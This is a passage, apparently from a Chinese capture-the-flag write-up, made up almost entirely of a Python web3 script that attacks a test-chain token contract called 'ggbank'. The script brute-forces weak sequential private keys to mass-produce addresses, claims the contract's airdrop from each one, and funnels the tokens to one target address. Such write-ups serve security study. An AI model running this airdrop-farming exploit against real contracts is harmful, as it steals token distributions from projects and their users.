 ```
    result = w3.eth.sendRawTransaction(signed.rawTransaction)

    nonce +=1

    while 1:
        if w3.eth.getBalance(Web3.toChecksumAddress(address)) >0:
            break
        time.sleep(1)

    # 空投
    nonce2 = w3.eth.getTransactionCount(Web3.toChecksumAddress(address))

    transaction2 = ggbank_ins.functions.getAirdrop().buildTransaction({'chainId': 3, 'gas': 200000, 'nonce': nonce2, 'gasPrice': w3.toWei('1', 'gwei')})
    print(transaction2)
    signed2 = w3.eth.account.signTransaction(transaction2, private_key)

    result2 = w3.eth.sendRawTransaction(signed2.rawTransaction)

    # 转账
    nonce2+=1

    transaction3 = ggbank_ins.functions.transfer(mytarget, int(1000)).buildTransaction({'chainId': 3, 'gas': 200000, 'nonce': nonce2, 'gasPrice': w3.toWei('1', 'gwei')})
    print(transaction3)

    signed3 = w3.eth.account.signTransaction(transaction3, private_key)

    result3 = w3.eth.sendRawTransaction(signed3.rawTransaction)



if __name__ == '__main__':

    j = 0
    for i in range(1000000,100000000):
        private_key = "%064d" % i
        # address = create_address(private_key)
        # print(address)
        # if "7d7ec" in address:
        #     print(address)

        address = "0x" + encode_hex(privtoaddr(private_key))

        if "7d7ec" in address:
            private_key = unhexlify(private_key)
            print(j)
            try:
                transfer(address, private_key)
            except:
                traceback.print_exc()
                print("error:"+str(j))
            j+=1

```

最终效果显著

![image.png-8.3kB][1]


  [1]: http://static.zybuluo.com/LoRexxar/89eepzp81mzw31l8fhf737k8/image.png
